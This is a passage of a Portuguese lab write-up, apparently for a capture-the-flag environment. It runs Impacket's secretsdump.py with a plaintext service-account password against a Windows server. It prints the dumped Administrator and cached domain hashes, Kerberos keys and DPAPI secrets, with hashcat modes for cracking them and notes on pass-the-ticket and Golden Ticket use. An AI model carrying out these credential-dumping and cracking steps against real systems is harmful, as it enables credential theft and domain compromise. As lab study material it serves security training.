 A alternativa que funcionou foi utilizar o script `secretsdump.py`, do framework Impacket, que permite extrair remotamente informações sensíveis de sistemas Windows, como hashes de senha, credenciais em cache, senhas em texto claro, segredos do LSA, chaves Kerberos, entre outros dados valiosos para movimentação lateral ou escalonamento de privilégios.

`proxychains -q secretsdump.py corp.thereserve.loc/svcScanning:'Password1!'@10.200.89.31`

- `corp.thereserve.loc`: 10.200.89.11
- `@10.200.89.31`: IP do alvo (`Server1`), onde o script coleta os dados

![](img/31afb6cd3a9a0c2b2076524a88b26f96.png)

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
==Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::==
Muito Importante por ser a HASH do Administrator (500 = RID do Administrador) então caso seja viável pegar essa HASH e tentar quebrar com o HASHCAT(`-m 1000`)

[*] Dumping cached domain logon information (domain/username:hash)
==CORP.THERESERVE.LOC/Administrator:$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca: (2023-04-01 03:13:47)==
São hashes de logons armazenadas em cache, úteis para usar o HASHCAT (`-m 2100`) para cracking offline.

[*] $MACHINE.ACC 
==CORP\SERVER1$:aes256-cts-hmac-sha1-96:50003969cb4cc89c4a8d1bd379a00ed50e2dcf4f6aa6849f9611959ef8d7fa13==
Isso são chaves Kerberos da conta da máquina - Úteis em ataques de pass-the-ticket ou Golden Ticket

[*] DPAPI_SYSTEM 
==dpapi_machinekey:0xb4cfb5032a98c1b279c92264915da1fd3d8b1a0d
dpapi_userkey:0x3cddfc2ba786e51edf1c732a21ffa1f3d19aa382==
Chaves usadas para descriptografar dados protegidos com DPAPI

[*] NL$KM 
 ==0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...==
 Chave mestra de autenticação NTLM
